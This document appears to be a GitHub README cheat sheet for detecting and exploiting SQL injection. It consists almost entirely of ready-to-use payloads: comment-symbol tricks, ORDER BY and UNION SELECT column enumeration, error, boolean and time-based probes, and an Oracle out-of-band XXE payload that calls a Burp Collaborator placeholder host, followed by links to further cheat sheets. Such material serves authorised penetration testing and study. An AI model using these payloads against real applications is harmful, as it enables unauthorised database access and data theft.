 <h1>SQL injection detection</h1>

# IN BAND (Classic)
###########################################################################################################

Comment symbols

"--" Symbol Alternative
```
— 	Inline comment
#	Inline comment
/* 	Block comment
*/ 	Block comment
```

# UNION BASED
Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+
.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
...
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
..........
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
...
```
BOOLEAN BASED
```
1 AND 1
2 OR 3
2-1
2^1
3*1
%15
1=2
1>2
3
.....
```
TİME BASED
```
sleep(5)
pg_sleep(5)
waitfor delay '0:0:5'
BENCHMARK(10000000,rand())
....
```
OUT-OF-BAND
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml+version="1.0"+encoding="UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%+remote+SYSTEM+"http://BURP-COLLABORATOR-SUBDOMAIN/">+%remote;]>'),'/l')+FROM+dual--
```
Other Resources:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-Extractvalue.html
https://brightsec.com/blog/error-based-sql-injection/#:~:text=What%20Is%20Error%2DBased%20SQL,actor%20of%20the%20database's%20structure
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md
https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf
https://www.pwc.com.tr/tr/assets/pdf/out-of-band-oob-sql-injection.pdf
https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwj-ir6t7bCCAxX_FRAIHVEdCXU4ChAWegQIBRAB&url=https%3A%2F%2Fzenodo.org%2Frecord%2F3556347%2Ffiles%2FA%2520Study%2520of%2520Out-of-Band%2520SQL%2520Injection.pdf%3Fdownload%3D1&usg=AOvVaw0hGkiklfL04cE-qOCuEaPa&opi=89978449
https://www.w3schools.com/sql/sql_comments.asp
